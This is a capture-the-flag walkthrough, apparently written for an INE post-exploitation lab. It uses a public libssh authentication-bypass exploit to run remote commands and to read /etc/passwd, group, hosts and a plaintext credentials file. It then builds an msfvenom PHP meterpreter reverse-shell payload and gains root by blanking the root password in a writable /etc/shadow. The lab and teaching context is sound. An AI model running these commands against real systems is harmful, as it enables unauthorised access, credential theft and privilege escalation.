

# Host & Network Penetration Testing: Post-Exploitation CTF 1

## Target
* `http://target1.ine.local`
* `http://target2.ine.local`

## Tools used:
* `nmap`
* `searchsploit`

---
### Flag 1: The file that stores user account details is worth a closer look. (target1.ine.local)
First we start we a simple `nmap` scan.
```bash
┌──(root㉿INE)-[~]
└─# nmap -Pn -sV -O target1.ine.local -p-
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-01-28 12:32 IST
Nmap scan report for target1.ine.local (192.188.191.4)
Host is up (0.000086s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     libssh 0.8.3 (protocol 2.0)
MAC Address: 02:42:C0:BC:BF:04 (Unknown)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 4.12 seconds
```
The `libssh` sounds interesting so we look it up on `searchsploit`
```bash
┌──(root㉿INE)-[~]
└─# searchsploit libssh
--------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                           |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
libSSH - Authentication Bypass                                                                                                                           | linux/remote/45638.py
LibSSH 0.7.6 / 0.8.4 - Unauthorized Access                                                                                                               | linux/remote/46307.py
--------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```
The `Unauthorized access` looks interesting so we try to see if we can modify it and run it to get access to the target.
```bash
┌──(root㉿INE)-[~]
└─# python3 46307.py target1.ine.local 22 whoami                                                                                                                                           
user

```
From the looks of it we can execute commands on it, so we try to get the user file.
```bash
┌──(root㉿INE)-[~]
└─# python3 46307.py target1.ine.local 22 'cat /etc/passwd'                                
root:x:0:0::/root:/usr/bin/bash
alpm:x:980:980:Arch Linux Package Management:/:/usr/bin/nologin
bin:x:1:1::/:/usr/bin/nologin
daemon:x:2:2::/:/usr/bin/nologin
mail:x:8:12::/var/spool/mail:/usr/bin/nologin
ftp:x:14:11::/srv/ftp:/usr/bin/nologin
http:x:33:33::/srv/http:/usr/bin/nologin
nobody:x:65534:65534:Kernel Overflow User:/:/usr/bin/nologin
dbus:x:81:81:System Message Bus:/:/usr/bin/nologin
systemd-coredump:x:979:979:systemd Core Dumper:/:/usr/bin/nologin
systemd-network:x:978:978:systemd Network Management:/:/usr/bin/nologin
systemd-oom:x:977:977:systemd Userspace OOM Killer:/:/usr/bin/nologin
systemd-journal-remote:x:976:976:systemd Journal Remote:/:/usr/bin/nologin
systemd-resolve:x:975:975:systemd Resolver:/:/usr/bin/nologin
systemd-timesync:x:974:974:systemd Time Synchronization:/:/usr/bin/nologin
tss:x:973:973:tss user for tpm2:/:/usr/bin/nologin
uuidd:x:68:68::/:/usr/bin/nologin
user:x:1000:1000::/home/user:/usr/bin/bash
FLAG1_110709171bc749259e46cf85b5b3acd9:x:1001:984::/home/FLAG1_110709171bc749259e46cf85b5b3acd9:/usr/bin/bash
```
The user file contains the flag.  
Flag: **110709171bc749259e46cf85b5b3acd9**

### Flag 2: User groups might reveal more than you expect.
Since we already have access to the machine, we try to list the user groups in the target
```bash
┌──(root㉿INE)-[~]
└─# python3 46307.py target1.ine.local 22 'cat /etc/group'                                                                                                                                                                            
root:x:0:root
sys:x:3:bin
mem:x:8:
ftp:x:11:
mail:x:12:
log:x:19:
smmsp:x:25:
proc:x:26:
games:x:50:
lock:x:54:
network:x:90:
floppy:x:94:
scanner:x:96:
power:x:98:
nobody:x:65534:
adm:x:999:daemon
wheel:x:998:
utmp:x:997:
audio:x:996:
disk:x:995:
input:x:994:
kmem:x:993:
kvm:x:992:
lp:x:991:
optical:x:990:
render:x:989:
sgx:x:988:
storage:x:987:
tty:x:5:
uucp:x:986:
video:x:985:
users:x:984:
groups:x:983:
systemd-journal:x:982:
rfkill:x:981:
alpm:x:980:
bin:x:1:daemon
daemon:x:2:bin
http:x:33:
dbus:x:81:
systemd-coredump:x:979:
systemd-network:x:978:
systemd-oom:x:977:
systemd-journal-remote:x:976:
systemd-resolve:x:975:
systemd-timesync:x:974:
tss:x:973:
uuidd:x:68:
user:x:1000:
# FLAG2_1ca10e3828c546c0ba6477c88b744124
```
Flag: **1ca10e3828c546c0ba6477c88b744124**

### Flag 3: Scheduled tasks often have telling names. Investigate the cron jobs to uncover the secret.
For this one we just list all the cron jobs to get the next flag
```bash
┌──(root㉿INE)-[~]
└─# python3 46307.py target1.ine.local 22 'ls /etc/cron.d'                                 
0hourly
FLAG3_dc8ef83d42644a578b67560138a83dda
```

Flag: **dc8ef83d42644a578b67560138a83dda**

### Flag 4: DNS configurations might point you in the right direction. Also, explore the home directories for stored credentials.
To print the DNS config, we just print the `/etc/hosts` file. This gives us the next flag. 
```bash
┌──(root㉿INE)-[~]
└─# python3 46307.py target1.ine.local 22 'cat /etc/hosts'                                 
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
192.188.191.4   target1.ine.local target1
#FLAG4_95e0469d769143fe8659a68bf56048e5
192.188.191.2 INE
192.188.191.3 target2.ine.local
192.188.191.4 target1.ine.local
```
Flag: **95e0469d769143fe8659a68bf56048e5**

### Flag 5: Use the discovered credentials to gain higher privileges and explore the root’s home directory on target2.ine.local
We first search the home directory for the credentials
```bash
┌──(root㉿INE)-[~]
└─# python3 46307.py target1.ine.local 22 'ls /home'                                       
temp
user


┌──(root㉿INE)-[~]
└─# python3 46307.py target1.ine.local 22 'ls /home/temp'                                  
cve-2018-10933.patch
exploit-libssh-0.8.3
libssh-0.8.3
server.patch
ssh_host_ecdsa_key
ssh_host_ecdsa_key.pub
ssh_host_rsa_key
ssh_host_rsa_key.pub


┌──(root㉿INE)-[~]
└─# python3 46307.py target1.ine.local 22 'ls /home/user'                                  
credentials.txt


┌──(root㉿INE)-[~]
└─# python3 46307.py target1.ine.local 22 'cat /home/user/credentials.txt'                 
john:Pass@john123
```
Then we do an `nmap` scan of the next target
```bash
┌──(root㉿INE)-[~]
└─# nmap -Pn -sV -O target2.ine.local -p-                                                                                                                                                                                                   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-01-28 12:53 IST
Nmap scan report for target2.ine.local (192.188.191.3)
Host is up (0.000077s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
25/tcp open  smtp    Postfix smtpd
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
MAC Address: 02:42:C0:BC:BF:03 (Unknown)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: Host:  localhost.members.linode.com; OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.12 seconds
```
The target allows `ssh`, so we use this to log in
```bash
The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

john@target2:~$ whoami
john
```
Now we try to find any vulnerability to escalate our privileges.
  
We also try to find any file with the setuid present
```bash
john@target2:/$ find / -perm -4000 -type f 2>/dev/null
/usr/lib/telnetlogin
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/su
/usr/bin/umount
```
Since that didn't work we try to set up a reverse_tcp shell by creating a payload via `msfvenom`
```bash
┌──(root㉿INE)-[~]                                                                         
└─# msfvenom -p php/meterpreter/reverse_tcp LHOST=192.188.191.2 LPORT=7891 -f raw > shell.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 1114 bytes
```
Now we just look for any folder that is writable
```bash
john@target2:~$ find / -type f -writable 2>/dev/null
/home/john/.bash_logout
/home/john/.bashrc
/home/john/.profile
```
The ***/etc/shadow*** file iswritable 
```bash
/proc/854/setgroups
/proc/854/timerslack_ns
/dev/urandom
/dev/zero
/dev/tty
/dev/full
/dev/random
/dev/null
/etc/shadow
```
```bash
john@target2:~$ cat /etc/shadow
root:*:19977:0:99999:7:::
daemon:*:19977:0:99999:7:::
bin:*:19977:0:99999:7:::
```
We modify the file to remove the root password
```bash
john@target2:~$ nano /etc/shadow
john@target2:~$ cat /etc/shadow
root::19977:0:99999:7:::
daemon:*:19977:0:99999:7:::
bin:*:19977:0:99999:7:::
sys:*:19977:0:99999:7:::
sync:*:19977:0:99999:7:::
games:*:19977:0:99999:7:::
```
Now we just switch to root and get the final flag.
```bash
john@target2:~$ su root
root@target2:/home/john# 
root@target2:/home/john# ls /root
flag.txt
root@target2:/home/john# cat /root/flag.txt 
FLAG5_8552093ea32c4fbe94b5481b419ea931
```
Flag: **8552093ea32c4fbe94b5481b419ea931**